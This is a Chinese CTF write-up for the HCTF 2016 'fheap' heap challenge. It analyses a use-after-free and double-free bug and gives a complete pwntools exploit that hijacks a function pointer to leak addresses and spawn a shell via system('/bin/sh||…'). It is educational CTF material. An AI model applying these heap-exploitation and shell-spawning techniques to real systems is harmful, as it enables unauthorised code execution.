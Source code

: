 # 2016 HCTF fheap

## 基本情况

    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

## 基本功能

阉割版堆管理器，有增删功能。

```c
// 管理堆的结构体
struct
{
    int inuse;
    String *str;
} Strings[0x10];

// 堆结构体
typedef struct String
{
    union {
        char *buf;
        char array[16];
    } o;
    int len;
    void (*free)(struct String *ptr);
} String;
```

create string 有两种不同方式来储存字符串：

1. 字符串块 < 16 , 在结构体堆块（String）上存放输入的字符串。

2. 字符串块>=16 ,  malloc 一个**输入的字符串长度 size** 的空间， 将该空间地址存放在原来的堆块中。

   > 注意是 malloc 输入的字符串长度 ，而不是输入的 size 。自行根据源码分析：
   >
   > ```c
   > nbytesa = strlen(&buf);
   > if ( nbytesa > 15 )
   > {
   >     dest = (char *)malloc(nbytesa);
   > ```

结构体堆块（String）最后 8 个字节存放的是 free_func 函数地址，用来在 delete 的时候调用，这样的设计与上面例子一致。字符串块两种情况对应两种不同的 free_func 。

delete string 根据输入下标释放 chunk 。

### 漏洞

delete 操作释放 chunk 后，没有将相关索引指针置零，而且没有对 chunk 状态进行严格限制，仅仅限制下标范围，以及查询索引指针是否存在，并没有检查 inuse 位，造成 **UAF**、**Double free** 。

### 思路

1. 利用 UAF 控制结构体堆块（String）最后 8 字节，修改 free_func 为 puts 函数地址。释放 chunk 泄露函数真实地址，通过计算得出程序加载基地址。完成绕过 PIE 保护。
2. 再次 UAF 控制结构体堆块（String）函数地址为 printf 函数，构造出格式化字符串漏洞，泄露栈上位于 libc 段的地址，完成 libc 地址泄露。
3. 第三次 UAF 控制结构体堆块（String）函数地址为 system 函数，利用 Linux 命令行特性 ``||`` 完成 getshell 

---

UAF 控制思路和例题差不多，但是一个问题。如果使用一样的 UAF 利用方法会出现问题：

```python
add(0x30,'a'*0x30)#0
add(0x30,'a'*0x30)#1
delete(1)
delete(0)
add(0x18,'b'*0x18)
```

这样不能达到预期效果，新堆的 string chunk 用的不是 chunk0 结构体，而是继续使用 chunk2 string chunk 。后续试过申请大小各种 string chunk 都是一样情况。

所以采用申请两个小堆（字符串长度小于 16），然后新堆申请一个 0x20 大小空间存放 string ，这样 string 就会使用 chunk1 结构体堆。

```python
add(8,'a'*8)
add(8,'b'*8)
delete(1)
delete(0)
```

在 free_short 附近找到 call puts 的地址：0xd2d 。然后使用 partial write 将 free_func 最低一个字节修改为 0x2d 。释放 chunk1 ，将 chunk1 结构体内容输入，从而泄露函数地址，计算出程序加载基地址。

```python
call_puts_addr = 0xd2d
payload = 'a'*0x18 + p64(call_puts_addr)[0]
add(len(payload),payload)

delete(1)
p.recvuntil('a'*0x18)
elf_base = u64(p.recv(6).ljust(8,'\x00'))-call_puts_addr
```

释放 chunk0 方便我们重复利用这两个堆，然后重复上面步骤找到 call printf ：0xDBB 。需要将格式化字符串在申请堆时写入在开头。偏移地址 gdb 调试找到一个 libc 内的地址即可。

```python
delete(0)
payload = '%22$p'.ljust(0x18,'a') + p64(0xDBB)[0]
add(len(payload),payload)
delete(1)
```

这步结束后会卡输入流，输入两行字符即可：

```python
p.sendline('skye')
p.sendline('skye')
```

再次释放 chunk0 并申请，这次将函数地址修改为 system 地址，/bin/sh 输入在开头。由于程序输入函数不能读入 \x00 ，所以用 ``||`` 分隔填充内容，原因如下：

| 分隔符 | 说明                                                         |
| ------ | ------------------------------------------------------------ |
| &&     | 第2条命令只有在第1条命令成功执行之后才执行                   |
| `||`   | 只有`||`前的命令执行不成功（产生了一个非0的退出码）时，才执行后面的命令。 |
| ；     | 当;号前的命令执行完， 不管是否执行成功，执行;后的命令        |

### EXP

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Author  : MrSkYe
# @Email   : skye231@foxmail.com
# @File    : pwn-f.py
from pwn import *
context(log_level='debug',os='linux',arch='amd64')
# p = process("./pwn-f")
p = remote("node3.buuoj.cn",29256)
elf = ELF("./pwn-f")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

def add(size,content):
	p.recvuntil("3.quit\n")
	p.sendline("create string")
	p.recvuntil("size:")
	p.sendline(str(size))
	p.recvuntil("str:")
	p.send(content)
def delete(id):
	p.recvuntil("3.quit\n")
	p.sendline("delete string")
	p.recvuntil("id:")
	p.sendline(str(id))
	p.recvuntil("sure?:")
	p.sendline('yes')

# UAF
add(8,'a'*8)
add(8,'b'*8)
delete(1)
delete(0)

# overwrite free_func 2 puts
call_puts_addr = 0xd2d
payload = 'a'*0x18 + p64(call_puts_addr)[0]
add(len(payload),payload)

# leak libc
delete(1)
p.recvuntil('a'*0x18)
elf_base = u64(p.recv(6).ljust(8,'\x00'))-call_puts_addr
log.info("elf_base:"+hex(elf_base))
# printf_plt = elf_base + elf.plt['printf']
# log.info("printf_plt:"+hex(printf_plt))

# overwrite 2 printf leak libc
delete(0)
payload = '%22$p'.ljust(0x18,'a') + p64(0xDBB)[0]
add(len(payload),payload)
delete(1)
leak_addr = int(p.recv(14),16)
log.info("leak_addr:"+hex(leak_addr))
libc_addr = leak_addr - 0x78c0f
log.info("libc_addr:"+hex(libc_addr))
system_addr = libc_addr + libc.sym['system']
log.info("system_addr:"+hex(system_addr))
str_binsh = libc_addr + libc.search('/bin/sh').next()
log.info("str_binsh:"+hex(str_binsh))
# one = [0x45226,0x4527a,0xf0364,0xf1207]
# onegadget = one[0] + libc_addr
# log.info("onegadget:"+hex(onegadget))

p.sendline('skye')
p.sendline('skye')

# system('/bin/sh||aaa……')
delete(0)
payload = '/bin/sh||'.ljust(0x18,'a') + p64(system_addr)
add(len(payload),payload)

# gdb.attach(p,'b *$rebase(0x2020C0)')
# # gdb.attach(p,'b *$rebase(0xDBB)')
delete(1)


p.interactive()
```

### 其他解法

* [hctf2016 fheap学习(FlappyPig队伍的解法)](https://www.cnblogs.com/shangye/p/6156350.html)

* [hctf2016 fheap学习(FreeBuf发表的官方解法)](https://www.cnblogs.com/shangye/p/6156391.html)

  DlyELF 泄露 libc 地址

* [hctf2016-fheap Writeup](http://blog.eonew.cn/archives/586#UAFfreeShortputs)

